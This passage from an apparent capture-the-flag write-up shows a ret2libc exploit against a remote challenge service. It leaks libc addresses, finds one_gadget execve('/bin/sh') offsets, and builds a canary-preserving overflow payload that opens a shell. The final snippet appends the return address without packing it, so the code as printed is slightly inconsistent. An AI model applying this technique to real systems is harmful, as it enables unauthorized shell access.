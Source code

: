 Now we have the addresses of two functions! Now, we can switch to using the
remote service and extract the libc version.

```
[+] Opening connection to 206.81.24.129 on port 1339: Done
[*] setvbuf: 0x7f5abf3b6e70
[*] gets: 0x7f5abf3b5d80
```

Running these through a [libc database](https://github.com/niklasb/libc-database)
gets us the libc version: libc6_2.23-0ubuntu10_amd64.so.

Now we can work out the exact offset of `setvbuf` from the start of libc.

```python
libc = setvbuf - 0x6fe70
```

Now we just need somewhere in libc to jump to! Using the wonderful
[one_gadget](https://github.com/david942j/one_gadget) we can extract a call
to /bin/sh.

```
$ one_gadget ./libc6_2.23-0ubuntu10_amd64.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

That looks promising...

```python
target = libc + 0x45216

payload = 'a' * 0x88    # padding to fill the buffer
payload += p64(canary)  # canary
payload += p64(1337)    # rbp (exact value doesn't matter)
payload += target        # rip
p.sendline(payload)

p.interactive()
```

And we have shell!!!
